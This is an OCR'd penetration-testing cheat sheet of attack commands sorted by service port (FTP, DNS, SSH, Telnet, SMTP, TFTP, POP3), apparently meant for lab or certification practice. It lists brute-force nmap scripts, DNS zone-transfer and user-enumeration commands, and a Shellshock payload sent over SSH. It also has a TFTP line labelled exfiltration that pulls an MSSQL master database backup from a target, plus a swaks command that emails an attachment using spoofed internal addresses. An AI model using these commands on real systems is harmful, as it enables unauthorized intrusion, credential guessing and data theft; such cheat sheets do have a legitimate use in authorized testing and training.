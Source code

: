 nmap -p21 --script ftp-brute <IP>


//DOMAIN 53

nslookup 
server IP
1)localhost
2)IP
3) guess

dnsrecon -r 127.0.0.0/24 
dnsrecon -r subnet/24
dig axfr @IP


// SSH (:22/tcp) - PROBING & EXPLOITATION
ssh <IP> -p <PORT>
nc -nc <IP> 22
telnet <IP> 22
nmap -sVC <IP> -p22
searchsploit SSH version  # check shellshock
ssh -i noob noob@ip '() { :;}; /bin/bash'

// TELNET (:23/tcp) - PROBING & EXPLOITATION
telnet -l <user> <IP> 23
nmap -sVC -p23 <ip>
finger-user-enum.pl <OPTIONS> -u <USER> -t <IP>
finger-user-enum.pl <OPTIONS> -U USERS.txt -T HOSTS.txt

// SMTP (:25/tcp) - PROBING & EXPLOITATION
nc -nvC <IP> 25
	VRFY root
	HELO <user>@<domain>.com
	listusers
	setpassword <USER> <PASSWORD>
	nmap -p25 --script smtp-vuln* <IP>
nmap -p25 --script smtp-enum-users <IP>
smtp-user-enum -M VRFY -U list.txt -t <IP>
smtp-user-enum -M RCPT -U /usr/share/wordlists/metasploit/unix_users.txt -t <IP>
smtp-user-enum -M EXPN -u unix_users.txt -t <IP>
smtp-user-enum -M EXPN -D <domain.com> -U unix_users.txt -t <IP>
finger -p "<USER>"
swaks --to <USER>@<DOMAIN>.local --from "<USER>@<DOMAIN>.local" --header "Subject: Status" --body body.txt --attach status.pdf --server <IP> --port 25 --auth LOGIN --auth-user "<USER>@<DOMAIN>.local" --auth-password <PASSWORD>

// TFTP (:69/udp) - EXFILTRATION
atftp -g -l MASTER.mdf  -r "C:\Program Files\Microsoft SQL Server\MSSQL14.SQLEXPRESS\MSSQL\Backup\master.mdf" 10.11.1.111
tftp <IP> 

// POP3 (:110/tcp) - PROBING & EXPLOITATION
nc -nvC <IP> 110
	USER <USER>
	PASS <PASSWORD>
	LIST
	RETR <#>
nmap -p110 --script pop3-capabilities <IP>
nmap -p110 --script pop3-brute <IP>

